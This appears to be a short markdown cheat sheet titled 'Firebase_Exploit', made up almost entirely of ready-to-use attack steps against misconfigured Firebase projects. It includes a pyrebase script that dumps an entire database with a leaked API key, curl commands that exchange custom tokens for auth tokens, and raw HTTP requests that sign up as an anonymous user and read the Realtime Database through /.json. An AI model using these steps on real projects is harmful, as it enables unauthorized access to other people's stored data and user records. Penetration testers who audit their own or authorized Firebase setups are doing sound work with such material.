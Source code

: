 # Firebase_Exploit

# Firebase
The Below script will authenticate to a given Firebase database and then print out the contents of the database. This is only possible when the API key provided to this script has permissions to read the database.
```
import pyrebase
config = {
  "apiKey": "FIREBASE_API_KEY",
  "authDomain": "FIREBASE_AUTH_DOMAIN_ID.firebaseapp.com",
  "databaseURL": "https://FIREBASE_AUTH_DOMAIN_ID.firebaseio.com",
  "storageBucket": "FIREBASE_AUTH_DOMAIN_ID.appspot.com",
}
firebase = pyrebase.initialize_app(config)
db = firebase.database()
print(db.get())
```
-------------------------------------------------------------------------------------------------------------

Requires a custom token, and an API key.

Obtain ID token and refresh token from custom token and API key:
```
curl -s -XPOST -H 'content-type: application/json' -d '{"token":":custom_token","returnSecureToken":True}' 'https://identitytoolkit.googleapis.com/v1/accounts:signInWithCustomToken?key=:api_key'
```

Exchange ID token for auth token: 
```
curl -s -XPOST -H 'content-type: application/json' -d '{"idToken":":id_token"}' https://www.googleapis.com/identitytoolkit/v3/relyingparty/verifyCustomToken?key=:api_key'
```
login as anonymous to Firebase Project :

```
POST /identitytoolkit/v3/relyingparty/signupNewUser?key=AIza**** HTTP/2
Host: www.googleapis.com
Content-Length: 28
X-Client-Version: Chrome/JsCore/7.14.4/FirebaseCore-web
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: null
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,vi;q=0.8

{
"returnSecureToken":true}

```

Server return token and then we can use the response token to read to Firebase Realtime Database using this API.

```

GET /.json?auth=eyJhbGciOiJSUzI1NiIsImtpZCI6**** HTTP/1.1
Host: xxx.firebaseio.com
Accept: application/json, text/plain, */*
Accept-Language: vi
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.12.1
Content-Length: 51
